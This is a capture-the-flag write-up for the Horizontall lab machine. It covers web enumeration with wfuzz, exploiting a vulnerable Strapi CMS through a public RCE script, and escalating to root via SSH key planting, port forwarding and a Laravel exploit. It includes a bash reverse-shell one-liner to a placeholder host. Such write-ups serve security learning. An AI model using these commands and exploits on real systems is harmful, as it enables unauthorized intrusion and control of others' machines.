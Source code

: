 # Information Gathering

## Port scann

In port 80 we have a website hosted on an nginx server, although we first have to include the route to the ip (add 10.10.11.105 horizontall.htb to hosts)

## Webpage analysis
The web apparently does not have any interactive field. Check subdomains and subdirs.

- Sub-directory listing wit ``wfuzz -c -u 10.10.11.105/FUZZ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --hc=404 --follow --hw=43 -t 200`` did not find any interesting subdirectory. Note we add the ``--follow`` option to follow redirecitons.
- Sub-domain listing with ``wfuzz -c -u 10.10.11.105 -H "HOST: FUZZ.horizontall.htb" -w /home/kali/Desktop/subdomains-top1mil-20000.txt -t 200 --follow --hw=43`` also did not find anything interesting.

At this point, seems like there are no defalult-pages or directories that we can look at. Also, the webpage seems not to be interactive at all, so seems that what we habe only left is to analyze the scripts that the app runs when it loads.

Geting all the petitons made by the app when reloading gives us a buch of petitons, among them, one calls to ``http://horizontall.htb/js/app.c68eb462.js`` so let's take a look on that. Analyzing the code leads to an interesting path: ``http://api-prod.horizontall.htb/reviews``

## RCE and gaining user access
When we go to that path we find a list of json reviews. If we go to the index, we find a page that only says "Welcome". If we run ``whatweb`` against the new sub-domain we found, we see that its using a CMS called strapi, so lets see if it has known vulnerabilities. Indeed. version 3.0.0-beta 17.4 is vulnerable and has multiple known exploits. searchsploit shows us one with rce located at ``/usr/share/exploitdb/exploits/multiple/webapps/50239.py``. Execute it with python. Then, write command for revershe shell `` bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'``

## Privilege escalation
Once we got access to the machine we can start scanning its content, trying to find something useful. Cronjobs and SUID files are not interesting, but runing an internal port scan with ``netstat -nat`` shows us that some ports that were not open for outside connections are open for inside ones, so lets port forward those to see what's going on. To do that I first created a .ssh directory on ``/opt/strapi`` directory and added my ssh public key to the ``authorized_keys`` file. Next, I do the usual port forwarding with ssh with the command ``ssh -i strapi -L 8000:localhost:8000 strapi@horizontall.htb``. When looking for that direction on the browser, I see a laravel page. A quick lookup at the version allow us to see that is vulnerable. Using this [exploit](https://github.com/ambionics/laravel-exploits) I get root access.
